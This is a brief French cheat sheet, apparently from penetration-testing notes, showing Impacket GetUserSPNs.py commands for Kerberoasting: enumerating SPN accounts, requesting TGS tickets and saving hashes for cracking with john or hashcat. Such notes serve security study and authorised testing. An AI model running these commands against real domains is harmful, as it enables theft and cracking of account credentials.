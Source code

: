 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Impacket

### Utiliser GetUserSPNs.py

 Il réalise les opérations suivantes :

- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```
# remarque : on peut utliser -target-domain <domain> si on veut attaquer un autre domaine 

# Liste des comptes disposant d'un SPN
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD

# Récupération des TGS (ajout de -request)
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request

# Récupération d'un unique TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request-user interesting.user

# Enregistrement des TGS pour les fournier à john / hashcat (fichier 'hashes.txt')
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request -outputfile hash_kerberoastables.txt

```
